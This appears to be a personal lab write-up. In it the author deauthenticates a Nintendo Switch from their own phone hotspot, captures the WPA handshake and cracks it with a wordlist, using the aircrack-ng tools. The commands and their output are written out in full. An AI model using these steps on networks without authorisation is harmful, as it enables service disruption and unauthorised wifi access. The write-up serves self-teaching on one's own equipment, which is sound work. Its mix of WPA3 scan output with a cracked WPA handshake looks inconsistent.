 ```bash
sudo airmon-ng start wlan1 
```
Now you can list the ESSID's
```shell
sudo airodump wlan1
```
WIthin the dump is my phone.
```
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
8A:CC:B5:1D:9A:F9  -78        9        0    0   6  130   WPA3 CCMP   SAE  ElJay’s Phone              
```
No i dont call it `ElJay's Phone` I renamed it :)
Next we can do the same thing but target this device by using the BSSID.
(Everytime i check the hotspot the BSSID changes.)

```
sudo airodump-ng -d 2A:C1:ED:94:F8:07 wlan1
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 2A:C1:ED:94:F8:07  -77       14      138    0   6  130   WPA3 CCMP   SAE  <length: 15>                 

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 2A:C1:ED:94:F8:07  58:2F:40:CE:5D:73  -70    0 -24e    53      138    
```
Now that we have the BSSID of both the AP and client we can send a deauth packet.
**Disclaimer: This is the cyber crimes bit. Make sure it is your own network or that you have permission.**
```bash
sudo aireplay-ng  -0 0 -a 2A:C1:ED:94:F8:07 -c 58:2F:40:CE:5D:73 wlan1
```
where `a` is the access point (hotspot) and `c` is the client (Nintendo switch).

## Get and crack a handshake.
Running the scanning tool again and manually connecting to wifi from the switch shows that a WPA handshake has been captured. Further down it shows the AP it has connected to and under notes it says it was EAPOL. How do I save the hash and make hashcat do all the work?

Official aircrack-ng tutorial [link](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

`-w psk` will save the handshake apparently. Forcing the switch to connect again and ...

(For safety best to `-d` to only get your AP)
```
sudo airodump-ng -c 6 wlan1 -w psk -d A6:99:42:94:34:7F
```

I have a pcap file now! Wireshark time. The file is big and I dont want to deal with that right now.

Cracking it on the RPi (very bad idea) with a questionable wordlist. shows that it works!
```bash
aircrack-ng -w pwd.lst psk*.cap
```

